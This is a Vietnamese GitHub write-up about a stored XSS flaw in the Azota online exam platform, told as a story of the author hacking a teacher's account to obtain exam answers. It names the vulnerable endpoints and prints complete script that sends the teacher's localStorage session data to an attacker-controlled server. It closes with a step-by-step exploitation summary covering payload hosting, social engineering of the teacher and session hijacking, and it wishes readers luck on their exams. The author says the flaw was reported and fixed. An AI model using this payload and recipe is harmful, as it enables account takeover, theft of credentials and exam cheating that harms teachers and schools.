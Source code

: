 # Tôi đã hack đáp án azota như nào trong kỳ thi như thế nào
-------------------------------------------
## [Đến phần khai thác luôn thì ấn vào đây](#Tóm-tắt-khai-thác)

## - Mở bài
Thật ra cũng thật tình cờ vào một ngày đẹp thức dậy vào lúc 7h đánh răng ngồi vào bàn học mở zoom thân thương lên để học tập trong mùa dịch, một thông báo bất ngờ hiện lên với dòng tin nhắn của thầy tôi là **KIỂM TRA HOÁ GIỮA KỲ** vào tuần sau trên azota, tôi thật bất ngờ nhưng cũng thật bình tĩnh....
Sau 5 tiết học bận rội tôi mở chiếc lattop cũ kỹ của tôi lên vào web azota để lập tài khoản và thi thử. Tôi biết mình là một người học không tốt môn hoá mấy(thật ra mất gốc). Từ đó tôi suy nghĩ có cách nào mà làm cái khác mà vẫn có ăn không.

## - Thân bài 
Sau khi dạo quanh một vòng web thì tôi tìm ra một số api bị dính lỗi.
Địa chỉ bị lỗi là phần chỉnh sửa web site của azota:
![anh_chinh_sua_web](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/1sua_web.PNG)

### Các api thú vị:
#### Api - 1
`PUT /ladipage/m11_2021/d02/1787477/6181ab4aXXXXXXXXXXX`
`Host: wewiin.nyc3.digitaloceanspaces.com`
![post_chinhsua_web](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/2post_chinhsua_web.PNG?raw=true)


Đây là một api post dữ liệu web của mình lên `CND` trung gian của `digitaloceanspaces`.

Theo chúng ta thấy dữ liệu post ở đây không bị mã hoá và nó là html.

Mình đã thử chèn một đoạn thẻ `<script>alert(1)</script>` post lên .

Và thật bất ngờ ngay sau khi mình truy cập trang web của mình thì web đã bị xss.

Khoan dừng khoảng chừng là 2 giây ở đây mình đã xss trang `CDN` chứ không phải trang `azota.vn`(đọc sang api thứ 2 thì hiểu nhé).

Mình nhẹ nhàng check lại bằng cách thay `alert(1)` =>  `alert(document.URL)`

**Và :**

![alert_url](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/alert_url.PNG?raw=true)


Thật bất ngờ khi alert hiện lên là url azota đến đây thì mình đã hiểu là web đã render dữ liệu *HTML* từ `CDN` vào thẳng trang web chứ không chèn thông qua `iframe`.
Từ đây web đã bị dính `Stored XSS`

#### Api thứ 2
`POST /api/Usersetting/SaveMyDomain HTTP/2`
`Host: azota.vn`
![post_url_render](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/3post_url_render.PNG?raw=true)


Vậy ra đây một api post `url` web của bạn lên để khi truy cập web site của bạn thì **web sẽ render html** từ trang web này @@.

Nếu vậy có nghĩa là mình chèn một [URL](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/xss.html) bị tiêm mã script thì khi web azota render html từ trang đó thì cũng bị `XSS`.



### Tóm lại web đã bị xss nhưng làm sao hack được đáp án
Ở đây nếu muốn lấy đáp án thì phải truy cập vào tài khoản của thầy giáo qua `cookie`(document.cookie) nhưng nếu cookie `httponly` hoặc được `secure` thì chắc cũng bó tay **nhưng ở đây là lúc mình nhận ra** web họ không xác thực qua cookie mà qua `localStorage` **@@ khó hiểu** nếu vậy mình chỉ cần đánh cắp `localStorage` của thầy là mình đã có thể truy cập vào ních thầy được rồi.

code xss 
```
<script>
// post data localStorage lên server của mình 
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://webcuaban.com", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("data=".concat(localStorage.getItem("user_obj")));
//chuyển hướng đánh lừa thầy web lỗi 404
window.location=("https://azota.vn/vi/admin/baithi");
</script>
```
Giờ thì `social engineering` thôi :3 
![anh_social](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/social.PNG?raw=true)

Ngay sau đó mình đã có data đăng nhập của thầy:

![anh_data](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/data.PNG?raw=true)

:)) đến giờ thì vào thay `localStorage` của thầy và khui đáp án thi học kỳ lấy 10đ thôi.

## - Kết bài
Mình chỉ demo vui vậy thôi chứ mình đã report cho bên đơn vị liên quan để họ sửa chữa

![anh_suachua](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/fix.PNG?raw=true).


# Tóm tắt khai thác 
- 1 Tạo câu lệnh js lấy `localStorage`
    ```
    <script>
    // post data localStorage lên server của mình 
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", "https://webcuaban.com", true);
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("data=".concat(localStorage.getItem("user_obj")));
    //chuyển hướng đánh lừa thầy web lỗi 404
    window.location=("https://azota.vn/vi/admin/baithi");
    </script>
    ```
    Lưu ý vào **https://webcuaban.com** là web của các bạn chèn vào để lấy thông tin post lên ở đây mình khuyến khích các bạn tạo một api get request free ở đây [https://requestbin.com/](https://requestbin.com/)
- 2 Up code lên web nào đó khuyến khích [pastebin](https://pastebin.com/) or [github](https://github.com/VHAE04) ....
  Demo [https://pastebin.com/raw/yS3NZUMr](https://pastebin.com/raw/yS3NZUMr)
- 3 Post url đã được tiêm lệnh lên **[api sau](#Api-thứ-2)**
- 4 Bảo người dùng vào đường dẫn bằng `social engineering`
- 5 Lên web lấy thông tin khi nạn nhân đã post và thay vào `localStorage` của mình
- 6 Truy cập vào tài khoản qua `localStorage` và lấy đáp án thôi :3 **chúc bạn thi thật tốt**

